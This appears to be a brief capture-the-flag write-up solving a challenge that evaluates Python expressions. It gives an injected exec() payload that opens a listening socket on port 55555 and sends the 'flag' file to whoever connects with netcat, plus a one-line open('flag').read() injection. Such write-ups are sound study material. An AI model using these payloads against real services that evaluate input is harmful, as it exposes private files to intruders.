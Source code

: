 # Solution

## Complicated solution
Input this as an expression:

exec('import socket; s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(("0.0.0.0", 55555)); s.listen(1); c = s.accept()[0]; c.send(open("flag", "rb").read())')

Press Enter.
Then connect to server via netcat: "nc host 55555". It will send us a flag.

## Simple solution
Just type it:
open('flag').read()

:)
